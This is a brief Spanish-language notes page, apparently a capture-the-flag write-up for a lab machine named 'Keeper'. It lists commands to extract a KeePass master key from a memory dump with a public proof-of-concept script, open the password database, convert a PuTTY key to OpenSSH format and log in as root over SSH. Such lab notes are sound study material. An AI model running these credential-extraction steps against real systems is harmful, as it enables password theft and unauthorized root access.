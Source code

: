 ```yaml
---
layout: default
title: Keeper
---
```

https://github.com/matro7sh/keepass-dump-masterkey

Para extraer la masterkey de un dmp de keepass (volcado de memoria)

```python
python3 poc.py -d KeePassDumpFull.dmp
```

Para abrir un kdbx
```bash
keepassxc passcodes.kdbx
```

Para convertir una putty key  en una pem:

```
https://tecadmin.net/convert-ppk-to-pem-using-command/
```

```bash
puttygen private.key -O private-openssh -o id_rsa
```

```bash
ssh -i id_rsa root@keeper.htb
```